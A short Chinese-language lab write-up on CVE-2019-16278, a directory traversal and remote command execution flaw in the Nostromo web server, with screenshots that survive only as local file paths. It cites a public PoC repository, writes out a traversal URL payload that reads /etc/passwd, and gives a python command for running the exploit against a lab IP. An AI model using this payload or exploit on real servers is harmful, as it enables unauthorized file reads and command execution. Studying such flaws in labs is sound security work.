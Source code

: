 # CVE-2019-16278：Nostromo Web服务器的远程命令执行

web中间件漏洞

【影响版本】

nhttpd：`version <= 1.9.6`

Nostromo由于在验证URL安全性方面存在[缺陷](https://www.owasp.org/index.php/Path_Traversal)，导致目录穿越，任何人都可以遍历系统中任何文件。因此未经过身份验证的远程攻击者可以强制服务器指向`/bin/sh`这样的shell文件，借此执行任意命令。

打开界面是这样的

![image-20211006101101922](C:\Users\e'e't\AppData\Roaming\Typora\typora-user-images\image-20211006101101922.png)

先用poc验证一下

[下载](https://www.77169.net/downloads)CVE-2019-16278
git clone 

https://github.com/jas502n/CVE-2019-16278
cd CVE-2019-16278
ls

![image-20211006101325982](C:\Users\e'e't\AppData\Roaming\Typora\typora-user-images\image-20211006101325982.png)

接下来可以利用了

![image-20211006101532696](C:\Users\e'e't\AppData\Roaming\Typora\typora-user-images\image-20211006101532696.png)

权限不够- -

chmod 赋下目录权限

![image-20211006102754919](C:\Users\e'e't\AppData\Roaming\Typora\typora-user-images\image-20211006102754919.png)

不知道为什么提示我网页无法打开，但是我浏览器都能打开

多次尝试发现要跟上目录

![image-20211006103016839](C:\Users\e'e't\AppData\Roaming\Typora\typora-user-images\image-20211006103016839.png)

哦 这样也不行其实

利用网上的poc直接修改get请求

[http://192.168.1.190/..%0D/..%0D/..%0D/..%0D/..%0D/..%0D/etc/passwd](http://127.0.0.1:8080/.. /.. /.. /.. /.. /.. /etc/passwd) 

或者直接用pytho脚本命令执行

python CVE-2019-16278 192.168.1.190 24647 XXX

后面靶场自动关了而且每次打开加载很慢就没有寻找flag

